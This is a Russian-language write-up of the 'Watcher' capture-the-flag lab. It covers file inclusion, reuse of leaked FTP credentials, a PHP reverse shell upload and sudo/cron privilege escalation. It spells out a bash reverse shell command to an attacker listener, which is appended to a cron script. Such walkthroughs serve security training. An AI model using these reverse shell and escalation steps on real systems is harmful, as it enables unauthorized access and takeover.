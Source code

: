 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Отправить данный запрос нужно после поключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако,[ стабилизировав оболочку](../cheatsheet.md), с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

